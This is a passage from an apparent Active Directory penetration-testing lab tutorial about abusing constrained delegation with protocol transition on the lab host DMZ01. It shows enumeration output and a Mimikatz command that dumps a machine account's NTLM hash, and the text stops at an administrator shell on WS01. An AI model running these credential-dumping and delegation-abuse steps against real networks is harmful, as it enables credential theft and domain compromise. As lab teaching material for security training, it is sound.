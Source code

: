 ```powershell-session
objectguid                    : eaebb114-2638-40ec-9617-8715c4d3057a
operatingsystem               : Windows Server 2019 Standard
operatingsystemversion        : 10.0 (17763)
lastlogoff                    : 12/31/1600 6:00:00 PM
msds-allowedtodelegateto      : {www/WS01.INLANEFREIGHT.LOCAL, www/WS01}
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {WSMAN/DMZ01, WSMAN/DMZ01.INLANEFREIGHT.LOCAL, TERMSRV/DMZ01,
                                TERMSRV/DMZ01.INLANEFREIGHT.LOCAL...}
lastlogon                     : 4/1/2023 10:02:15 AM
iscriticalsystemobject        : False
usnchanged                    : 41084
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/14/2022 12:10:03 PM
primarygroupid                : 515
pwdlastset                    : 3/23/2023 10:20:32 AM
msds-supportedencryptiontypes : 28
name                          : DMZ01
dnshostname                   : DMZ01.INLANEFREIGHT.LOCAL
```

The account `DMZ01$` has `TRUSTED_TO_AUTH_FOR_DELEGATION` UAC attribute set, which means it has constrained delegation `with protocol transition` set, and the only allowed service for delegation is `www/WS01.inlanefreight.local`.

---

## WS01: Requesting Valid TGS ticket

We can use `Rubeus` to ask for a valid TGS ticket from an arbitrary user to access the `HTTP` service on the `WS01` host. To successfully perform this attack, we will need to obtain the NTLM password hash of the `DMZ01$` machine account. We can obtain this using `Mimikatz`.

#### Get Machine's Hash with Mimikatz
```powershell-session
PS C:\Tools> .\mimikatz.exe privilege::debug sekurlsa::msv exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::msv

Authentication Id : 0 ; 414620 (00000000:0006539c)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 4/1/2023 7:39:12 AM
SID               : S-1-5-96-0-2
        msv :
         [00000003] Primary
         * Username : DMZ01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ff955e93a130f5bb1a6565f32b7dc127
         * SHA1     : f9232403611aa86f51a05c64e1abd86ce4021ff1
<SNIP>
```

[ws01.inlanefreight.local]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami